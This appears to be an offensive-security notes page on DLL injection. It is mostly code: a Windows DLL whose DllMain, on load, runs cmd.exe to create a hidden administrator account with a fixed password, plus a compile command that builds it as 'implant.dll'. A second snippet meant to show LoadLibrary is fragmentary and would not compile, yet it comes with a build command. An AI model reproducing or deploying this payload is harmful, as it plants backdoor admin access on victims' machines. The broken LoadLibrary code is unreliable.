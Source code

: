 # DLL Injection

```c
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
	    // add payload
        system("cmd.exe /k net user sysadmin Password1234! /add & net localgroup Administrators sysadmin /add");
        ExitProcess(0);
    }
    return TRUE;
}
```

```
$ x86_64-w64-mingw32-gcc -shared -o implant.dll implant.c
```

Loads a dynamic-link library (DLL) module into the address space of the calling process.

```c
#include <windows.h>
#include <libloaderapi.h>

#pragma comment(lib, "kernel32.lib")

LoadLibrary
LoadLibraryA
```

```
$ x86_64-w64-mingw32-gcc -l kernel32 -o implant.exe implant.c
```

---
## References

- [Tenouk: Dynamic Link Library - Part 1](https://www.tenouk.com/ModuleBB.html)

- [Tenouk: Dynamic Link Library - Part 2](https://www.tenouk.com/ModuleCC.html)

- [Tenouk: Windows DLL - A Supplementary Note](https://www.tenouk.com/cbbccfunction.html)